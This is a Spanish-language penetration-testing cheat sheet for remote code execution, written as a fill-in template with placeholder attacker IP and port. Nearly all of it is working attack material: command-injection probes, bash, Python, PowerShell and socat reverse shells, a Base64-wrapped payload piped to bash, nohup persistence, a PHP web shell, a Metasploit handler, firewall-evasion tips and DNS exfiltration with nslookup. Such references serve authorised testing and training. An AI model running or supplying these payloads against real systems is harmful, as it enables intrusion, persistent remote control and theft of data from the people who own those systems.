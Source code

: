 # CheatSheet: Remote Code Execution (RCE)

## Fecha: {FECHA}
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Identificar y explotar vulnerabilidades de RCE para ejecutar comandos arbitrarios en el sistema objetivo.

---
## Herramientas
1. Burp Suite
2. Metasploit
3. Curl/Wget
4. Python
5. Bash
6. PowerShell

---
## Procedimiento y comandos

1. **Identificación de puntos vulnerables**:
   - Prueba de parámetros sospechosos mediante inyecciones de prueba:
     ```
     ; id
     && whoami
     || uname -a
     | nc -e /bin/sh {ATTACKER_IP} {PORT}
     ```
   - Usar Burp Suite para interceptar y modificar solicitudes HTTP.

2. **Exploración de la vulnerabilidad**:
   - Confirmar la ejecución remota mediante comandos simples:
     ```
     http://target.com/vulnerable?cmd=whoami
     ```
   - Uso de Curl:
     ```bash
     curl "http://target.com/vulnerable?cmd=id"
     ```

3. **Ejecución de payloads avanzados**:
   - **Bash Reverse Shell**:
     ```bash
     bash -i >& /dev/tcp/{ATTACKER_IP}/{PORT} 0>&1
     ```
   - **Python Reverse Shell**:
     ```python
     python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("{ATTACKER_IP}",{PORT})); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'
     ```
   - **Windows PowerShell Reverse Shell**:
     ```powershell
     powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://{ATTACKER_IP}/reverse.ps1')"
     ```

4. **Codificación URL y Base64**:
   - Codificar comandos en URL:
     ```bash
     echo -n "id" | xxd -p | tr -d '\n' | sed 's/\(..\)/%\1/g'
     ```
   - Codificar en Base64:
     ```bash
     echo -n "bash -i >& /dev/tcp/{ATTACKER_IP}/{PORT} 0>&1" | base64
     ```
     Ejecutar en el objetivo:
     ```bash
     echo {BASE64_PAYLOAD} | base64 -d | bash
     ```

5. **Persistencia y explotación adicional**:
   - Subir archivos maliciosos al servidor:
     ```bash
     curl -T reverse_shell.sh http://target.com/upload
     ```
   - Crear una conexión persistente:
     ```bash
     nohup bash -c 'bash -i >& /dev/tcp/{ATTACKER_IP}/{PORT} 0>&1' &
     ```

---
## Troubleshooting

1. **Protección contra comandos directos**:
   - Obfuscar comandos con técnicas como codificación Base64 o XOR.

2. **Firewall bloqueando tráfico**:
   - Usar puertos comunes (e.g., 443 o 80).
   - Establecer un túnel cifrado (e.g., usando OpenSSL).
     ```bash
     openssl s_client -quiet -connect {ATTACKER_IP}:{PORT}
     ```

3. **Limitación de caracteres especiales**:
   - Probar diferentes delimitadores (e.g., `%0a`, `|`, `&`).

4. **Sistemas restringidos (Windows)**:
   - Usar PowerShell para eludir restricciones:
     ```powershell
     powershell -Command "Start-Process cmd -ArgumentList '/c calc.exe'"
     ```

---
## Herramientas Alternativas

- [ ] **Socat**: Túneles avanzados y shells interactivas.
  ```bash
  socat tcp-connect:{ATTACKER_IP}:{PORT} exec:/bin/bash,pty,stderr,setsid,sigint,sane
  ```
- [ ] **Metasploit**: Framework para explotación de RCE.
  ```bash
  use exploit/multi/handler
  set PAYLOAD linux/x86/meterpreter_reverse_tcp
  set LHOST {ATTACKER_IP}
  set LPORT {PORT}
  exploit
  ```
- [ ] **PHP Shells**: Exploit para servidores web vulnerables.
  ```php
  <?php system($_GET['cmd']); ?>
  ```
- [ ] **Nishang**: PowerShell scripts para pruebas avanzadas en Windows.
- [ ] **Exfiltración mediante DNS**:
  ```bash
  nslookup `whoami`.example.com
  ```


